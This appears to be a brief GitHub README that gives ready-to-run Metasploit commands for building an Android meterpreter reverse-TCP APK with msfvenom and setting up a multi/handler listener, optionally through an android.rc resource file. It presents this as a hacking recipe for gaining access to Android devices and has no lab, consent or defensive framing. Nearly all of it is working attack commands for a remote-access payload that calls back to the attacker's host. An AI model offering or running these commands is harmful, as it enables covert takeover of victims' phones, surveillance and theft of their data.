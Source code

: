 ### androidcode

# Android payload Generating Metasploit.....!

```
msfvenom -p android/meterpreter/reverse_tcp lhost=$lhost lport=$port -o  $name.apk
```

# payload listener ( For listening to the accessed Android device)

```
sudo msfconsole
```
```
use exploit/multi/handler

```
```
set payload android/meterpreter/reverse_tcp
```
```
set lhost $lhost

```
```
set lport 8080
```
```
exploit
```

#### you guys can speed up your hack by make a android.rc file 

=====================> just follow my lead 

#### just edit the file named android.rc file 

### Edit the  lhost & lport 

### Run the listenerusing the android.rc file 
```
msfconsole -r android.rc
```
wait for the accessed Android device to come in line......>>>! 
